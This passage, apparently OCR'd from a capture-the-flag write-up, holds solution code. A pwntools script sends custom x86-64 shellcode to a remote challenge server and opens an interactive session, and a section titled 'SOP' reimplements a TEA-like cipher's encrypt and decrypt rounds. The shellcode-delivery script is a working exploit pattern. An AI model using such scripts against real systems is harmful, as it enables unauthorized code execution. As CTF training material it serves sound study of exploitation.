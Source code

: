 ```python=
                   dec r12
                   mov r12, rdi

                   cmp rdi, 0x2170008
                   jne OUTERLOOP

                 mov rdi, 0x2170008
                 mov rdi, 0
                 mov rax, 0x3c
                 syscall
                 ''')

r = remote('52.192.42.215',9427)

r.sendlineafter(')\n',str(len(shellcode)))
r.sendafter('..\n',shellcode)

r.interactive()
```

### SOP

```python=
from pwn import *
from Crypto.Util.number import long_to_bytes

def encrypt(inp):
    res = []
    for INP in inp:
        for i in range(32):
            INP[8] = (INP[8]+INP[9])&0xffffffff
            INP[11] = (INP[7]<<4)&0xffffffff
            INP[11] = (INP[11]+INP[2])&0xffffffff
            INP[12] = (INP[7]>>5)&0xffffffff
            INP[12] = (INP[12]+INP[3])&0xffffffff
            INP[11] = (INP[11]^INP[12])&0xffffffff
            INP[12] = (INP[7]+INP[8])&0xffffffff
            INP[11] = (INP[11]^INP[12])&0xffffffff
            INP[6] = (INP[6]+INP[11])&0xffffffff

            INP[11] = (INP[6]<<4)&0xffffffff
            INP[11] = (INP[11]+INP[4])&0xffffffff
            INP[12] = (INP[6]>>5)&0xffffffff
            INP[12] = (INP[12]+INP[5])&0xffffffff
            INP[11] = (INP[11]^INP[12])&0xffffffff
            INP[12] = (INP[6]+INP[8])&0xffffffff
            INP[11] = (INP[11]^INP[12])&0xffffffff
            INP[7] = (INP[7]+INP[11])&0xffffffff

        res.append(INP[6])
        res.append(INP[7])
    return res

def decrypt(inp):
    res = []
    for INP in inp:
        INP[8] = (INP[9]*32)&0xffffffff
        for i in range(32):
            INP[11] = (INP[7]<<4)&0xffffffff
            INP[11] = (INP[11]+INP[2])&0xffffffff
            INP[12] = (INP[7]>>5)&0xffffffff
            INP[12] = (INP[12]+INP[3])&0xffffffff
            INP[11] = (INP[11]^INP[12])&0xffffffff
```